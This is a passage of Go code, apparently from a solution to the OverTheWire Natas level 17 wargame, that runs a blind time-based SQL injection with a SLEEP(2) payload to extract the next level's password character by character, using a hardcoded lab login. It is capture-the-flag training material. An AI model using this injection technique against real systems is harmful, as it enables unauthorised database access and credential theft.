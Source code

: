 ```go=

                         
                        values.Set("username","natas18\"AND password like  BINARY \"%" + temp +"\" AND SLEEP(2)#")


                        data := strings.NewReader(values.Encode())
                        //stat time now
                        start := time.Now()
                        req, err := http.NewRequest("POST", "http://natas17.natas.labs.overthewire.org", data)

                        if err != nil {
                                fmt.Println("Error", err)
                                return
                        }

                        req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
                        //req.Header.Add("Authorization", "Basic "+encode)
                        req.SetBasicAuth("natas17", "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd")
                        //Make the request and read the response

                        resp, err := http.DefaultClient.Do(req)

                        if err != nil {
                                fmt.Println("Error", err)
                                return
                        }
                        defer resp.Body.Close()

                        //print status

                        //fmt.Println("Status", resp.Status)
                        body, err := ioutil.ReadAll(resp.Body)
                        if err != nil {
                                fmt.Println("Error:", err)
                                return
                        }

                        //Elapsed time from start
                        elapsed := time.Since(start) 

                        if string(body) != "" {
                           fmt.Println(temp)
                        }
                        //fmt.Println("Body:", string(body))
                        //fmt.Println("Time: ", elapsed)
                        if elapsed > 2000000000 {
                                outtext = string(c) + outtext 
                                fmt.Println("outtext: ", outtext)
                        }
                }
        }


}

```
